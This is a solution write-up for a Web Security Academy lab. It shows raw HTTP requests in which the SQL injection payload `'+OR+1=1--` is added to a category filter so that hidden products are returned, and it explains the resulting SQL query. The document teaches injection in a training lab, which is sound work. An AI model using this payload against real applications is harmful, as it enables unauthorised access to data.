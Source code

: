 ```yaml
---
title: Solution to Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data 
---
```


The following is a solution to the lab titled "Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data".

Access the lab. From the Home page, navigate to one of the shop categories. (For this solution, the category is Accessories.)

In Burp Suite, send the request for the Accessories page to Repeater. The following is the unmodified HTTP request.

~~~
GET /filter?category=Accessories HTTP/2
Host: 0a3500a3042b2b11843a3897008800fd.web-security-academy.net
Cookie: session=egxqjkOekRr7s2wQXkObFabdTrnv1fCi
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a3500a3042b2b11843a3897008800fd.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
~~~

Modify the HTTP request, adding `'+OR+1=1--` after `category=Accessories`. The following is the modified HTTP request.

~~~
GET /filter?category=Accessories'+OR+1=1-- HTTP/2
Host: 0a3500a3042b2b11843a3897008800fd.web-security-academy.net
Cookie: session=egxqjkOekRr7s2wQXkObFabdTrnv1fCi
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a3500a3042b2b11843a3897008800fd.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
~~~

As a result of this modification, all product information was returned, thus solving the lab.

---

*SQL Note*

The unmodified request (`GET /filter?category=Accessories`) results in the following SQL query:

~~~
SELECT * FROM products WHERE category = 'Accessories' AND released = 1
~~~

This returns products from the category Accessories that have been released (`released = 1`).

Adding the payload `'+OR+1=1--` to `/filter?category=Accessories` results in the following SQL query:

~~~
SELECT * FROM products WHERE category = 'Accessories' OR 1=1--' AND released = 1
~~~

This query grabs products in the category Accessories or where 1=1. One is always equal to one, so this query grabs all products. The addition of -- turns the rest of the line into a comment, so ` AND released = 1` is ignored.
